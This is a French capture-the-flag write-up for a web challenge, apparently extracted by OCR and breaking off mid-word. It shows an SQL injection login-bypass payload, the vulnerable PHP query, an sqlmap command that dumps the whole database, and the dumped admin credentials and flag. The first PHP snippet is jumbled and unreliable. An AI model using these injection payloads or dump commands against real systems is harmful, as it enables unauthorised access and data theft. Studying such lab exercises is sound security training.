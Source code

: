 # Web 100 - Starbug Bounty

On détecte une simple injection SQL, il est donc possible de contourner l’authentification avec le
payload suivant.
> Username : ‘ or 1<2 --
> Password : peu importe


En injectant le payload dans le champ “username” de la requête 1 la condition devient vraie et le reste de
la requête est ignorée car elle est précédée d’un commentaire.

```php
1 - $stmt = $pdo->query("SELECT password='".$_POST['password']."'");

* FROM users WHERE username='".$_POST['username']."' and

2 - $stmt = $pdo->query("SELECT * FROM users WHERE username='' or 1<2 --' and password='".$_POST['password']."'");```


Nous sommes connectés sur l’interface et nous pouvons donc utiliser le flag qui nous est donné :
**ese{Auth_SqL_1s_s0000_w34k}**




Il était aussi possible d’utiliser SQLMap pour extraire le contenu de la base de données et ensuite se
connecter avec les identifiants récupérés.
> python
sqlmap.py
-u
'http://127.0.0.1/ESE-Epreuves/ESE%20Web%2002%20-
%20Starbug%20Bounty%20-%20Max/Epreuve/' --forms --dbms sqlite --dump

En fournissant les bonnes options à SQLmap telles que le type de base de données, ici SQLITE, on peut
détecter une injection SQL de type UNION. Avec l’option “dump”, l’outil va automatiquement récupérer
toute la base de données.

**Attention** : SQLMap est un outil assez intrusif, à la fin du CTF nous avions plus de 10 GO de logs sur la machine hébergeant les challenges.

>Database: SQLite_masterdb
>
>Table: users [3 entries]
>
>+----+----------+------------------------+
>
>| id | username | password|
>
>+----+----------+------------------------+
>
>| 1 | admin | Auth_SqL_1s_s0000_w34k |
>
>+----+----------+------------------------+
>
SQLMap nous ressort la base de données et on peut utiliser les iden